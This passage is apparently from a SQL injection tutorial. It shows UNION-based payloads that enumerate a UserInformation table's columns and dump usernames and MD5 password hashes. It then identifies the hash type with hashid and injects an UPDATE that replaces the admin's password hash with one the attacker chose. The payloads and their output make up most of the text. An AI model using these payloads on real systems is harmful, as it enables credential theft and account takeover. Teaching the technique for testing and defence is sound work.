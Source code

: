 
In this example, we have found the UserInformation table, we need to find the columns in that table:
```
' UNION SELECT COLUMN_NAME, null, null FROM information_schema.columns WHERE TABLE_NAME = 'UserInformaiton'; #
```
| ProductName | ProductID | OrderID |
|----|----|----|
| Socks | 12543 | 8756|
| Football | 25631 | 2953 |
| Gloves | 52316| 1235 |
| LoginName |  |  |
|LoginHashPassword|||
|LoginID|||

We now know the column names, we can wuery to find a list of users and their hashed passwords for later attacks.
```
' UNION SELECT LoginName, LoginHash, LoginID FROM UserInformation;#
```
| ProductName | ProductID | OrderID |
|----|----|----|
| Socks | 12543 | 8756|
| Football | 25631 | 2953 |
| Gloves | 52316| 1235 |
| Admin | f5dd6524e64e7c36130cfa745ac7ff76 | 4873 |
|Bob_French|16bc78da95db4b5190e578a67bca565b|8393|
|Gabriel_greer|b3acda20ea55c158c7d1aba14adbbc46|9183|


### 5. Update Credentials:
In this example we are going to update the admin credentials on the database using the UPDATE Method.  Firstly we take the hashed password from the database and identify which hash it is. We can use a tool like [CyberChef](https://gchq.github.io/CyberChef/) to help us do this, or use the kali built in tool, [hashid](https://www.kali.org/tools/hashid/) 
```
kali$ hashid f5dd6524e64e7c36130cfa745ac7ff76
Analyzing 'f5dd6524e64e7c36130cfa745ac7ff76'
[+] MD5 
```
We then generate a password hash in the hash type that is being used by the database to authenticate:
```
kali$ echo "oneequalsone" | md5sum                                                                                                                           
780c83182a8d8bdbe69bdcf6a7b8d734  

```
Now, we can update the password with the generated MD5 hash for the password 'oneequalsone':
```
' UPDATE UserInformation SET LoginHashPassword = '780c83182a8d8bdbe69bdcf6a7b8d734' WHERE LoginID = 4873;#
```
